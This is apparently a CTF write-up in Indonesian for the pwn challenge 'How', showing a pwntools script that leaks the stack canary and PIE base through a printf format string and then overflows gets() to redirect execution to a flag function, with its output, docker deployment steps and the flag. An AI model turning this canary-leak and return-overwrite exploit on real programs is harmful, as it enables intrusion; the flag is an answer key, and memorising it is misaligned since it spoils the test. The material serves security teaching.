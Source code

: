 # How (264 Pts)

## Deskripsi
Apakah kamu tahu bagaimana caranya?

Author : **Inlandsche**

## Hint 
Tidak ada

## Proof of Concept
Pertama, lakukan analisa kode program dengan menggunakan software disassambler (`ghidra/IDA`) atau dengan `gdb`.
Program memiliki kelemahan pada fungsi `printf()` dan `gets()` sehingga dapat dilakukan overflow.

Pada program ini, terdapat proteksi dengan CANARY dan PIE. Kita bisa memanfaatkan kelemahan `printf()` untuk mendapatkannya. Untuk mendapatkan CANARY dan base address, kita harus memahami fungsi `strcspn()` pada bahasa C. Pada soal ini terdapat kondisi jika `strcspn()` sama dengan 40, maka program akan mengeluarkan fungsi `printf()` dan address dari fungsi `program()` sehingga kita bisa mendapatkan CANARY dan base address.


Script python untuk menyelesaikannya

```
from pwn import *

elf = ELF('./how')
p = elf.process()

# strcspn dan mendapatkan canary
inp = b"x"*40 + b"Q %47$p"

p.sendline(inp)
p.recvuntil(b"Hi, how was your day? xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxQ ")

canary = int(p.recvline().rstrip(), 16)
log.info("Canary found: [%s]", hex(canary))

p.recvuntil(b"You got the program address ")

program_addr = int(p.recvline().rstrip(), 16)
log.info("Address of program() found: [%s]", hex(program_addr))

base = program_addr - elf.symbols['program']
log.info("Base address found: [%s]", hex(base))

# Payload
canary_offset = 264

# address pemanggilan flag didapatkan dari disassamble fungsi program()
flaggg = 0x0000000000001297

payload = b"x"*canary_offset
payload += p64(canary)

# mengisi RBP dengan sembarang input
payload += b"RRBBBBPP"
# merubah return address untuk memanggil fungsi pemanggilan flag
payload += p64(flaggg + base)

p.sendline(payload)
p.interactive()
```

Output dari script tersebut

```
[*] '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[x] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how'
[+] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how': pid 8260
[*] Canary found: [0x5132475db3b2c200]
[*] Address of program() found: [0x55b43c5361b9]
[*] Base address found: [0x55b43c535000]
[*] Switching to interactive mode
Do you wanna say something?
>> Thanks :)
hology4{strcspn_4d4Lah_k0eNtJ1}
[*] Process '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how' stopped with exit code 0 (pid 8260)
[*] Got EOF while reading in interactive
```

## Referensi
Soal iFest (wangy), Soal Hacktivity (retcheck)

## Deployment

```
docker build -t how .
docker run -dp 37013:37013 --name how how
crontab /path/to/crontab
```

## Flag
<details>
<summary>Tekan untuk melihat flag</summary>

    hology4{strcspn_4d4Lah_k0eNtJ1}

</details>